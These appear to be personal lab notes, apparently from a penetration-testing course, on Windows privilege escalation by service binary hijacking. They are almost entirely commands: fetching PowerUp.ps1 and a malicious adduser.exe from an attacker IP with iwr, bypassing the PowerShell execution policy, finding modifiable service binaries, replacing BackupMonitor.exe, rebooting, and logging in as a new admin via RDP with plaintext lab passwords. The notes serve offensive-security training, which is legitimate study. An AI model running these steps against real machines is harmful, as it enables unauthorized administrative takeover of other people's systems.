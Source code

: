 
lets copy powerUp to the target machine and see if it detects the same exploit
```
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
iwr -uri http://192.168.45.219/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
```


can we replace an executable with a malicious one?
- display services the current user can modify
- also shows principal and if we can restart the service
- also look at Abuse Function in the output
- if you don't have perms to restart service, you have to restart the machine
```
Get-ModifiableServiceFile
Install-ServiceBinary -Name 'mysql'
```

abuse function above does not work, check why not
```
$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal
$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal
```
### VM 2
```
xfreerdp /u:milena /p:MyBirthDayIsInJuly1! /v:192.168.212.220 /w:1200 /h:700
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls "C:\BackupMonitor\BackupMonitor.exe"
```

use powerup to get the name of a vulnerable file
```
iwr -uri http://192.168.45.181/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

stop service and rename
```
net stop Backupmonitor
move C:\BackupMonitor\BackupMonitor.exe BackupMonitor.exe
```

create malicious binary and replace
```
iwr -uri http://192.168.45.181/adduser.exe -Outfile adduser.exe  
move .\adduser.exe C:\BackupMonitor\BackupMonitor.exe
```

shutdown, then login again as dave, use runas to use admin user
```
shutdown /r /t 0
Get-LocalGroupMember administrators
runas /user:dave2 cmd
xfreerdp /u:dave2 /p:password123! /v:192.168.212.220 /w:1200 /h:700
```
